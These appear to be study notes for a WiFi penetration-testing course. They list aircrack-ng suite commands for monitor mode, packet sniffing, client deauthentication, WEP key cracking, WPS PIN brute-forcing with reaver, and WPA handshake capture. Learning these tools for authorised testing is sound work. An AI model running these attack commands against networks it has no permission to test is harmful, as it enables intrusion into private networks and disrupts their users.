 # Learn Network Hacking From Scratch (WiFi & Wired)
https://www.udemy.com/course/wifi-hacking-penetration-testing-from-scratch/

## Wireless Modes

ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig

## Packet Sniffing - Airodump-ng

// Capture all
airodump-ng wlan0

==============

// Targeted (writing to file)
airodump-ng --bssid <MAC> --channel <channel#> --write test wlan0

## DeAuth

aireplay-ng --deauth <NumDeauthPackets> -a <NetworkMAC> -c <ClientMAC> wlan0

## WEP

//Break 24 bit initialization vector by collecting lots of packets and analyzing them
//First run airodump-ng against WEP device to capture data, write to file

aircrack-ng <filename.cap>
- remove : from key and connect to access point

==============

//Force access point to generate new IV (if not much traffic on network to create data)
//Get MAC from wireless adaptor from first six pairs of `unspec` field in `ifconfig`, replace - with :

aireplay-ng --fakeauth 0 -a <NetworkMAC> -h <WirelessAdaptorMAC> wlan0

## WPA/WPA2

### WPS Exploit (if enabled on router)

wash --interface wlan0
//Start Brute force of PIN
reaver --bssid <NetworkMAC> --channel 1 --interface wlan0 -vvv --no-associate
//Associate with network, fake auth
aireplay-ng --fakeauth 30  -a <NetworkMAC> -h <WirelessAdaptorMAC> wlan0

### Capture a Handshake and use it to get network key

airodump-ng --bssid <MAC> --channel <channel#> --write wpa_handshake wlan0
//Wait for device to connect, or conduct deauth attack (4 packets should work)
aireplay-ng --deauth <NumDeauthPackets> -a <NetworkMAC> -c <ClientMAC> wlan0
